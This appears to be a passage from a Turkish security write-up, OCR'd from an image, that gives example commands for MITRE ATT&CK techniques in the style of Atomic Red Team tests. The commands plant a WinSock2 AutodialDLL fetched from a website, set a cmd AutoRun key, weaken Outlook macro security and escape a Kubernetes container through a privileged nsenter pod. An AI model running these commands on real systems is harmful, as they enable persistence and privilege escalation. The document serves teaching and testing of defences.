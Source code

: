     ```powershell
    Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\WinSock2\Parameters -Name AutodialDLL -Value PathToAtomicsFolder\T1546\bin\AltWinSock2DLL.dll
    ```
    
    ```powershell
    Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\WinSock2\Parameters -Name AutodialDLL -Value  $env:windir\system32\rasadhlp.dll
    ```
    
    ```powershell
    New-Item -Type Directory "Path\T1546\bin\" -ErrorAction ignore | Out-Null
    Invoke-WebRequest "https://adilsoybali.com/T1546/bin/AltWinSock2DLL.dll" -OutFile "Path\T1546\bin\AltWinSock2DLL.dll"
    ```
    
    ```powershell
    New-ItemProperty -Path "HKLM:\Software\Microsoft\Command Processor" -Name "AutoRun" -Value "#{command}" -PropertyType "String"
    ```
    
2. **Office Application Startup (T1137)**
    
    Örnek komut:
    
    ```powershell
    reg add "HKEY_CURRENT_USER\Software\Microsoft\Office\16.0\Outlook\Security\Level" /t REG_DWORD /d 1 /f
    mkdir  %APPDATA%\Microsoft\Outlook\ >nul 2>&1
    echo "TEST" > %APPDATA%\Microsoft\Outlook\VbaProject.OTM
    ```
    
    ```powershell
    reg delete "HKEY_CURRENT_USER\Software\Microsoft\Office\16.0\Outlook\Security\Level" /f >nul 2>&1
    del %APPDATA%\Microsoft\Outlook\VbaProject.OTM >nul 2>&1
    ```
    

---

## **Privilege Escalation (TA0004)**

Yetki yükseltilir. Yetki yükseltme, saldırganların bir sistem veya ağ üzerinde daha üst düzey izinler elde etmek için kullandıkları tekniklerden oluşur. Saldırganlar genellikle yetkisiz erişimle bir ağa girebilir ve ağı keşfedebilir, ancak hedeflerini gerçekleştirmek için daha fazla izinlere ihtiyaç duyarlar.

1. **Escape to Host (T1611)**
    
    Örnek komut:
    
    ```bash
    kubectl --context kind-atomic-cluster run atomic-nsenter-escape-pod --restart=Never -ti --rm --image alpine --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"securityContext":{"privileged":true}}]}}'
    ```
    